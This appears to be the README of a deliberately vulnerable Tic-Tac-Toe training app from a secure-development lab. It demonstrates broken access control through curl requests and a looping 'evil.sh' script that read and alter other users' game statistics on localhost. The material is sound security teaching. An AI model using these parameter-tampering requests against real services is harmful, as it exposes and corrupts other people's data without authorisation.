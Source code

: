
# Tic-Tac-Toe

<p align="center"><img  src="images/a5-banner.png"/></p>

Tic-Tac-Toe is a simple Nodejs web application that contains an example of a Broken Access Control vulnerability and its main goal is to describe how a malicious user could exploit it.

## Index

- [Definition](#what-is-broken-access-control)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What is Broken Access Control?

Restrictions on what authenticated users are allowed to do are often not properly enforced. Attackers can exploit these flaws to access unauthorized functionality and/or data, such as access to other users' accounts, view sensitive files, modify other users’ data, change access rights, etc.

The main goal of this app is to discuss how **Broken Access Control** vulnerabilities can be exploited and to encourage developers to send secDevLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [secDevLabs](https://github.com/globocom/secDevLabs), you must type the following commands to start:

```sh

cd secDevLabs/owasp-top10-2017-apps/a5/tictactoe

```

```sh

make install

```

Then simply visit [http://localhost.:10005][App] ! 😆

## Get to know the app 🕹

To properly understand how this application works, you can follow this step:

- Try registering a user
- Sign in
- Play the game 
- See your statistics

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

#### Lack of user cookie validation allows for an attacker to get other users' game statistics

### 👀

In order to better understand how the application handles its data, two users, `user1` and `user2`, can be created using the web interface by visiting [http://locahost:10005/create](http://localhost:10005/create) as exemplified below:

<p  align="center"><img  src="images/attack0.png"/></p>

After logging in as `user1` and playing a few times, his/her statistics can be checked by visiting [http://localhost:10005/statistics](http://localhost:10005/statistics), as the following picture shows:

<p  align="center"><img  src="images/attack1.png"/></p>

To check how this information is being retrieved form the server, an attacker could use Developer Tools from Firefox using `Ctrl + Shift + E` or `Command + Option + E` on a Mac, as showed bellow:

<p  align="center"><img  src="images/attack3.png"/></p>

You can replicate this GET by using the following curl command (**use your own `tictacsession` token**):  

```sh
curl -s 'GET' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDcyODg2LCJleHAiOjE1NjM0NzY0ODZ9.ESLVZ9bbfUbUdFBFRCzxGTPICuaEWdGLxrvWykEmhNk' 'http://localhost.:10005/statistics/data?user=user1'
```

```json
{"chartData":[{"y":46.15384615384615,"label":"Wins"},{"y":15.384615384615385,"label":"Ties"},{"y":38.46153846153846,"label":"Loses"}],"numbers":{"games":13,"wins":6,"ties":2,"loses":5}}
```

### 🔥

As this AJAX request is being made passing the username as a URL parameter, it may indicate that only this parameter is being used to verify the permission to get the data. To check this, using the same `tictacsession`, an attacker could replace `user1` to another known user, as `user2` for example: 

```sh
curl -s 'GET' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDcyODg2LCJleHAiOjE1NjM0NzY0ODZ9.ESLVZ9bbfUbUdFBFRCzxGTPICuaEWdGLxrvWykEmhNk' 'http://localhost:10005/statistics/data?user=user2'
```

```json
{"chartData":[{"y":100,"label":"Wins"},{"y":0,"label":"Ties"},{"y":0,"label":"Loses"}],"numbers":{"games":1,"wins":1,"ties":0,"loses":0}}
```

This fact represents a `Broken Access Control` vulnerability, allowing an attacker to see every known user's private statistics.

#### Lack of user cookie validation allows for an attacker to manipulate user statistics

### 👀

Using the same methodology, an attacker could now check what the application does when a game finishes and tries to store the result. Analyzing the browser inspector once again reveals that a POST was made to the `/game` route, as can be seen in the next image: 

<p  align="center"><img  src="images/attack4.png"/></p>

This request is done by using two parameters, `user` and `result`, as shown bellow: 

<p  align="center"><img  src="images/attack5.png"/></p>

To replicate this POST by using the curl command (use your own `tictacsession` token), you can type the following command: 

```sh
curl -s 'POST' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM' 'http://localhost:10005/game' --data-binary 'user=user1&result=win'
```

```json
OK
```

### 🔥

An attacker now could check if, by using another username into this request, he/she could modify other user's statistics. To do so, the parameter `user` is changed into another known user, as `user2` for example:

```sh
curl -s 'POST' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM' 'http://localhost:10005/game' --data-binary 'user=user2&result=win'
```

```json
OK
```
  
Imagining the worst scenario, an attacker could create a malicious script to send this same request as many times as he/she could, as can be exemplified bellow:

```sh
vi evil.sh
```

```sh
#!/bin/sh
#
# evil.sh - Add 100 losses to an user! 

user="user2"
num=100
result="lose"
tictacsession="eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM"

for i in `seq 1 $num`; do
    curl -s 'POST' -b "tictacsession=$tictacsession" 'http://localhost:10005/game' --data-binary "user=$user&result=$result"
done
```

And run it: 

```sh
chmod +x evil.sh && ./evil.sh
```

```sh
OKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOKOK
```

To check if this attack indeed worked, the malicious user could exploit the previous vulnerability to check `user2` statistics using the following command:

```sh
curl -s 'GET' -b 'tictacsession=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIxIiwiaWF0IjoxNTYzNDc5MzIxLCJleHAiOjE1NjM0ODI5MjF9.SRVz09ZebGa875MilaV2bj4tjAdTWA14JTuArnUDOZM' 'http://localhost:10005/statistics/data?user=user2'
```

```json
{"chartData":[{"y":3.6363636363636362,"label":"Wins"},{"y":2.727272727272727,"label":"Ties"},{"y":93.63636363636364,"label":"Loses"}],"numbers":{"games":110,"wins":4,"ties":3,"loses":103}}
```

Once again, this fact represents a `Broken Access Control` vulnerability, allowing an attacker to modify every known user's private statistics.

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

- Access other users' private statistics.
- Modify other users' private statistics.

## PR solutions

[Spoiler alert 🚨 ] To understand how this vulnerability can be mitigated, check out [these pull requests](https://github.com/globocom/secDevLabs/pulls?utf8=%E2%9C%93&q=is%3Apr+label%3A%22mitigation+solution+%F0%9F%94%92%22+label%3A%22Tic-Tac-Toe%22+)!

## Contributing

We encourage you to contribute to SecDevLabs! Please check out the [Contributing to SecDevLabs](../../../docs/CONTRIBUTING.md) section for guidelines on how to proceed! 🎉

[Docker Install]: https://docs.docker.com/install/
[Docker Compose Install]: https://docs.docker.com/compose/install/
[App]: http://localhost.:10005
[secDevLabs]: https://github.com/globocom/secDevLabs
[2]:https://github.com/globocom/secDevLabs/tree/master/owasp-top10-2017-apps/a5/tictactoe

